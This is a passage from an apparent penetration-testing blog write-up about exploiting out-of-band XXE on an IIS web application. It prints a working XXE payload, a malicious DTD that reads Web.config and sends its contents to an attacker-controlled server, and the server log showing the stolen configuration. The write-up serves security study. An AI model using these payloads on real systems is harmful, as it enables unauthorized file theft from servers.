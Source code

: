 Looks like I got profit :D:

![](https://raw.githubusercontent.com/Spy0x7/Spy0x7.github.io/master/assets/2020-08-20-From-XXE-OOB-to-NTLM-thief/burp_collab.png)

However, the response from the server shows nothing to me, so it is time to do a *XXE out of band*. 

## [](#header-2)Let's retrieve files!

Now I need to adapt my payload to make it connect to a server where I have control. From there, I need to publish a malicious DTD in order to test LFI. The payload will be:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://xx.xx.xx.xx:80/evil.dtd"> %xxe;]
```

And the external DTD that will be invoked will be something like this:

```xml
<!ENTITY % file SYSTEM "file:///c:/Inetpub/wwwroot/Web.config">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % file "<!ENTITY fileContents '%start;%file;%end;'>">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://xx.xx.xx.xx:80/%file;'>">
%eval;
%exfiltrate;
```

Notice that I tried to retrieve a windows file. This is because in the header responses of the webapp, I saw it was running a IIS.
Okay, so now we just need to make the request while hosting a rogue web server in port 80 and...

```
xx.xx.xx.xx - - [20/Aug/2020 18:01:59] "GET /evil.dtd HTTP/1.1" 200 -
xx.xx.xx.xx - - [20/Aug/2020 18:01:59] code 404, message File not found
xx.xx.xx.xx - - [20/Aug/2020 18:01:59] "GET /%0D%0A%3Cconfiguration%3E%0D%0A%20%20%20%20%3Csystem.webServer%3E%0D%0A%20%20%20%20%20%20%20%20%3Csecurity%3E%0D%0A%20%20%20%20%20%20%20%20%20%20%20%20%3Cauthorization%3E%0D%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cadd%20accessType=%22Allow%22%20users=%22*%22%20/%3E%0D%0A%20%20%20%20%20%20%20%20%20%20%20%20%3C/authorization%3E%0D%0A%20%20%20%20%20%20%20%20%3C/security%3E%0D%0A%20%20%20%20%3C/system.webServer%3E%0D%0A%3C/configuration%3E HTTP/1.1" 404
```
Yay we got LFI! Now I needed to look for more interesting files. I thought about using intruder to fuzz for windows/IIS interesting files. However, I realized that the file name was in the DTD, not in the request... I though about some dirty solution then lol.
